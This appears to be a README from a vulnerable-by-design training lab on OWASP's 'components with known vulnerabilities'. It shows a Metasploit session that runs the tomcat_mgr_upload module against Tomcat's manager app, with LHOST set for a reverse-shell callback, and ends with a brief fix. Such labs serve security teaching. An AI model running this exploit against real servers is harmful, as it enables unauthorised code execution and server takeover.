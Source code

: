 ### Description

Components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

refers : https://www.owasp.org/index.php/Top_10-2017_A9-Using_Components_with_Known_Vulnerabilities


### Setting env

```console

$ bash run.sh

```
### Issue 

Tomcat is vulnerable for manager authenticated upload code execution

### Exploit 

```console

$ msfconsole -r exploit.rc

msf5 exploit(multi/http/tomcat_mgr_upload) >  set LHOST 192.168.255.1

msf5 exploit(multi/http/tomcat_mgr_upload) >  run

```

refers : https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload

### Fix 

Don't use default paswords and Upgrade tomcat with new version